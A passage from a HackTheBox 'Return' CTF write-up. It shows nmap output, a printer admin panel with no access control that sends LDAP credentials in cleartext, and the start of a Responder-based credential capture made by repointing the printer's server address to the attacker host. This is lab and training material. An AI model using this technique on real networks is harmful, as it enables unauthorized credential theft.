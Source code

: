 ```bash
| smb2-time: 
|   date: 2023-05-15T11:52:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 15 07:34:22 2023 -- 1 IP address (1 host up) scanned in 97.31 seconds
```

## Web enumeration (port 80)

Let’s see what’s on the webserver on port 80 : 

![Untitled](HackTheBox%20-%20Return%20(Easy)%207810dc74a6794c72bde6fc44c60c5cf6/Untitled.png)

So, we have access to a printer admin panel. The first problem I see here is the fact that there is **no access control** on this admin panel. The impact of this will depend on what we are able to do on this admin panel.

Let’s see what’s on the **Settings** page : 

![Untitled](HackTheBox%20-%20Return%20(Easy)%207810dc74a6794c72bde6fc44c60c5cf6/Untitled%201.png)

We can see the configuration of the printer. Fortunately for the target (not for an attacker), the password is not returned in the password field, this is a good point. We can see the server port set to `**389**`. According to the information, the printer will try to authenticate using the LDAP protocol and not the LDAPS protocol. The problem with LDAP is that the communication is not encrypted, so the credentials will be sent in clear text and may be captured by an attacker. We also found a username that could be useful later (`**svc-printer**`).

# Initial access

Since we are able to edit the server address, we may be able to capture the credentials from the LDAP request by usnig [Responder](https://github.com/SpiderLabs/Responder) and setting the server address to the IP address of our attacking host. First, let’s start responder on the VPN interface : 

```bash
┌──(kali㉿kali)-[~/…/HTB/CTF/Easy/Return]
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
```